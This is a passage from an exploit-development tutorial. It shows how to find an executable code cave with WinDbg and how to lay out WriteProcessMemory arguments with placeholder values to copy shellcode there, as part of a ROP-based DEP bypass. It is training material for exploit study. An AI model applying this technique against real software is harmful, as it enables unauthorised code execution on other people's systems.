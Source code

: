 ### 8. Patching WPM Parameters

### Codecave Hunting

 Let’s recap our overall exploit structure, we will need to copy our shellcode to the codecave. 

[offset] —> [writeprocessmemory] —> [eip] —> [rop] —> [shellcode]

We now need to patch in the address where WriteProcessMemory() needs to return to after it finished. Before we can proceed we need to identify the codecave where we can copy our shellcode to. The requirements would be that we should utilise a memory location with *Execute* permissions. We first check the location where our shellcode is currently residing in. We will also need to dynamically resolve the address and can potentially utilise a pivot to jump to our shellcode. 

```python

0:004> !dh processname

SECTION HEADER #1
   .text name
    **1E39 virtual size
    1000 virtual address**
    2000 size of raw data

0:004> dd processname + **virtualSize** + virtualAddress 

0:004> !vprot address
AllocationProtect: 00000080  PAGE_EXECUTE_WRITECOPY
RegionSize:        00001000
State:             00001000  MEM_COMMIT
Protect:           00000020  PAGE_EXECUTE_READ
Type:              01000000  MEM_IMAGE

```

Perfect it seems we have found a spot for our shellcode in the *.text* section with *EXECUTE* permissions. Further calculations show we have around XXX bytes for our shellcode. We therefor proceed with our shellcode location as XXXX. 

### Shellcode Return Address

Now that we have our shellcode location, we can proceed in writing the location into the dummy address. We update our WPM as follows:

```python
va  = pack("<L", (0x41414141))  # WriteProcessMemory address
va += pack("<L", (0x42424242))  # shellcode return address to return to after WriteProcessMemory is called
va += pack("<L", (0xffffffff))  # hProcess (pseudo Process handle)
va += pack("<L", (0x44444444))  # lpBaseAddress (Code cave address)
va += pack("<L", (0x45454545))  # lpBuffer (shellcode address)
va += pack("<L", (0x46464646))  # nSize (size of shellcode)
va += pack("<L", (0x47474747))  # lpNumberOfBytesWritten (writable memory address, i.e. !dh -a MODULE)
```
